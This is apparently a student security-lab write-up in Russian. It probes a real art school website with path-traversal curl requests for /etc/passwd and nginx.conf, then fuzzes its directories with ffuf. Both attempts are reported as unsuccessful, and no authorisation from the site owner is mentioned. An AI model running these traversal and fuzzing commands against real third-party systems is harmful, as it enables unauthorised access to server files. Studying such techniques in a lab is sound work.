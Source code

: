 # Лабораторная работа №1 - со звёздочкой :star2:
![meme1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme1.jpg)

За основу мы взяли сайт [школы искусств](https://dshi46.ru/)
## Path traversal (обход пути)
*Уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога.*
1. Установим curl 
```
winget install curl.curl
```

2. Попытаемся сделать обход и получить доступ к системным файлам
```
curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5
```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > - Имя пользователя
  > - Зашифрованный пароль
  > - Цифровой идентификатор пользователя (UID)
  > - Цифровой идентификатор группы пользователя (GID)
  > - Полное имя пользователя (GECOS)
  > - Домашний каталог пользователя
  > - Оболочка входа в систему

![res1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res1.png)

Попробуем закодировать символы ( %2f = / и, если сервер вдруг на Windows: %5c = \ ), а также получить файл с конфигурациями nginx
```
curl -Uri "https://dshi46.ru/..%2f..%2f..%2f..%2fetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%5c..%5c..%5c..%5cetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%2f..%2f..%2fetc%2fnginx%2fnginx.conf" | select -First 5
```

![res2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res2.png)

Как видим, доступ получить не удалось :(

## FFUF
*мощный инструмент командной строки, предназначенный для перебора содержимого веб-приложений. Он позволяет автоматизировать процесс фаззинга, тем самым обнаруживая скрытые файлы и директории, а также проверяя различные параметры URL и заголовки HTTP.*
1. Скачаем релиз утилиты FFUF для Windows: ffuf_2.1.0_windows_amd64.zip
2. Извлечем ffuf.exe и переместим его в папку C:\Tools\
3. Добавим в переменные среды ( переменную Path ) путь до этой папки C:\Tools\
4. Перезапустим PowerShell
5. Скачаем [словарь для перебора](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)
6. Выполним команду
   ```
   ffuf -w C:\Users\User\Downloads\common.txt -u https://dshi46.ru/FUZZ
   ```
7. В результате у нас есть доступ к странице для входа в аккаунт админа, но это не является уязимостью
8. А также на сервере существуют папки documents, stat и images к которым доступа нет
9. С помощью команд
    ```
    ffuf -u https://dshi46.ru/stat/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ```
   проверили содержимое каталогов и код у файлов. Ничего лишнего вне рабочего каталога index нам не оказалось доступным.
